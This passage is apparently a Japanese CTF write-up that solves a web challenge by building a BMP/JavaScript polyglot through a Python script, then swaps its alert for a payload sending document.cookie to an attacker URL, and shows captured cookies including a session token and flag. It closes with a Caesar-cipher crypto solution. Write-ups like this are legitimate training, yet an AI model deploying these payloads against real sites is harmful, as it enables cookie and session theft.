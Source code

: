 ```html
︙
   <img src="/media/0ef50f99-fc63-41ef-8b65-c14be1b94c4b"></img>
   <script charset="ISO-8859-1" src='/media/0ef50f99-fc63-41ef-8b65-c14be1b94c4b'></script>
︙
```

アップロードした画像を JavaScript のコードとして読み込み実行しています。普通の画像であれば Syntax Error で落ちるだけですが、画像と JavaScript の polyglot を作ることができれば XSS (?) ができそうです。

画像はビットマップファイルでもよいようなので、まず以下のように `BM/*(ヘッダ)*/=1;(スクリプト)/*(パディング)*/` のような内容のビットマップファイルを出力してくれるスクリプトを書きます。

```python
HEADER = b'\x42\x4D\x2F\x2A\x00\x00\x00\x00\x00\x00\x36\x00\x00\x00\x28\x00\x00\x00\x32\x00\x00\x00\x32\x00\x00\x00\x01\x00\x18\x00\x00\x00\x00\x00\xB0\x1D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
SCRIPT = b'''*/=1;
alert('XSS');
/*'''
with open('result.bmp', 'wb') as f:
  f.write(HEADER)
  f.write(SCRIPT)
  f.write(b'A' * (7652 - (len(HEADER) + len(SCRIPT))) + b'*/')
```

`alert('XSS')` を `(new Image).src = '(適当な URL)' + encodeURIComponent(document.cookie);` に書き換え、実行して出力された画像をアップロードすると以下のようなアクセスが来ました。

```
csrftoken=sWmwkUEiWZy8YGOpMuYdiniD65Ytxwivpo5Z58d456S5IPLUXPuQ8raThoo4iXMG; flag=SUN{why_bo0ther_with_ex1f}; jwtsess=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidGhlcm9jayIsInNpZyI6Imh0dHA6Ly9uZ2lueC9zdGF0aWMvc2VjcmV0LmtleSIsInJvbGUiOiJ1c2VyIn0.GyJM1uu-079ZjNPS4eeTPJ2kqoNPO6WXQknMlTP03gs
```

フラグが得られました。

```
SUN{why_bo0ther_with_ex1f}
```

## Crypto
### CB1 (50)
> We picked up a new numbers station that's been active in the shortwave bands. We need to figure out how to crack his code.
> Here's an example file, crack the cipher and send us the plaintext message.
> 添付ファイル: CB1.wav

私が問題を確認した時点で、[ふるつき](https://twitter.com/theoldmoon0602)さんが音声はフォネティックコードであることを見抜き、[yoshiking](https://twitter.com/y05h1k1ng) さんがアルファベットでの書き起こしをされていました。

`HKCGXKZNKOJKYULSGXIN` をシーザー暗号として右に 20 シフトするとフラグが得られました。

```
BEWARETHEIDESOFMARCH
```
